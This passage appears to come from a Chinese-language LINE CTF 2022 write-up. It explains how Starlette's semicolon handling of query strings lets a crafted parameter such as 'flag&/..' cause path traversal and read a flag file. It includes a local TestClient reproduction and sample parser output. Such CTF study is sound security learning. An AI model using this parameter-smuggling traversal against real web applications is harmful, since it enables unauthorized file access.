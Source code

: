 ![image-20220403210220450](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-d1e48337610875ea4a41836962e24b393e43b574.png)

因为分号的原因，解析成了两个 params，`dc61228a0a3c3709e3cf12165e0cc4ef=flag&%2F..%2F=`，有了`&`，所以filename变成了flag，path拼接上了`/../`变成了`./memo/dc61228a0a3c3709e3cf12165e0cc4ef/..//flag`

也可以这样:

```python
from starlette.testclient import TestClient
from starlette.requests import Request
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import PlainTextResponse

url = f'/test?dc61228a0a3c3709e3cf12165e0cc4ef=flag;/%2e%2e'

async def test_route(request: Request):
    clientId = 'dc61228a0a3c3709e3cf12165e0cc4ef'
    print(request.url.query)
    print(request.client.host)
    print(request.query_params.keys())
    print(request.query_params)
    filename = request.query_params[clientId]
    print(filename)
    path = './memo/' + "".join(request.query_params.keys()) + '/'+ filename
    print(path)
    return PlainTextResponse(request.url.query)

app = Starlette(debug=True, routes=[Route('/test', test_route)])

client = TestClient(app)

response = client.request(url=url, method='GET')
```

![image-20220403210143472](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-b4bba26194ff95e6071f65f45de5bdacd91c4bf6.png)

另一种方法：

```php
request.url: http://0.0.0.0#/view?id=flag&/..
request.url.query
params: id=flag&%2F..=
unquote params: flag
filename: flag
keys: dict_keys(['id', '/..'])
path: ./memo/id/../flag
```

虽然 `request.url.query` 整个没了，但是 `request.query_params` 还在，因此就绕过了`request.url.query` 的检查。

具体请见：`https://github.com/aszx87410/huli-blog/blob/master/source/_posts/linectf-2022-writeup.md`

BUU没放flag：

